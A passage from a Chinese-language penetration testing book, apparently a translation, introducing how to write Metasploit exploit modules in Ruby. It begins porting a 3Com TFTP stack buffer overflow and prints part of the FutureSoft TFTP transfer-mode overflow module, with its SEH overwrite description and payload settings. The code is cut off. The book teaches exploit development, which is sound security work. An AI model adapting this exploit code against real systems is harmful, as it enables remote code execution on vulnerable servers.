 ## 编写 Metasploit 模块

在本书中，我们利用了许多 Metasploit 模块进行信息收集、漏洞利用、后渗透等操作。随着新漏洞的发现，Metasploit 模块也会为这些问题编写，通常由像你一样的安全社区成员来完成。此外，随着研究人员实现新的后渗透或信息收集技术，这些技术也通常会被移植到 Metasploit 模块中。在本节中，我们将介绍如何编写我们自己的 Metasploit 漏洞模块的基础知识。

### 注意

Metasploit 模块是用 Ruby 编写的。

编写 Metasploit 模块的最佳方式是从一个相似的现有模块或框架开始，并且像我们在前一节中所做的那样，将漏洞移植过来以满足我们的需求。让我们从一个现有的 Metasploit TFTP 漏洞模块开始，将本章前面作为练习留下的 3Com TFTP 基于堆栈的缓冲区溢出漏洞移植过来。当然，Metasploit 已经有了这个漏洞的模块，但如果直接使用它作为基础模块的话，太简单了。

要查看所有 Windows TFTP 服务器的漏洞，查看 Kali 中 */usr/share/metasploit-framework/modules/exploits/windows/tftp* 目录下的内容。

我们将从模块 *futuresoft_transfermode.rb* 开始。这个模块（如示例 19-8 所示）利用了类似的问题：另一个 TFTP 软件的传输模式字段中的缓冲区溢出漏洞。我们将对其进行调整，使其适用于我们的 3Com TFTP 漏洞模块。

示例 19-8. Metasploit 模块示例

```
root@kali:/usr/share/metasploit-framework/modules/exploits/windows/tftp# **cat**
**futuresoft_transfermode.rb**
##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote ❶
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp ❷
  include Msf::Exploit::Remote::Seh

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'FutureSoft TFTP Server 2000 Transfer-Mode Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in the FutureSoft TFTP Server
        2000 product. By sending an overly long transfer-mode string, we were able
        to overwrite both the SEH and the saved EIP. A subsequent write-exception
        that will occur allows the transferring of execution to our shellcode
        via the overwritten SEH. This module has been tested against Windows
        2000 Professional and for some reason does not seem to work against
        Windows 2000 Server (could not trigger the overflow at all).
      },
      'Author'         => 'MC',
      'References'     =>
        [
          ['CVE', '2005-1812'],
          ['OSVDB', '16954'],
          ['BID', '13821'],
          ['URL', 'http://www.security.org.sg/vuln/tftp2000-1001.html'],

        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 350, ❸
          'BadChars' => "\x00", ❹
          'StackAdjustment' => -3500, ❺
```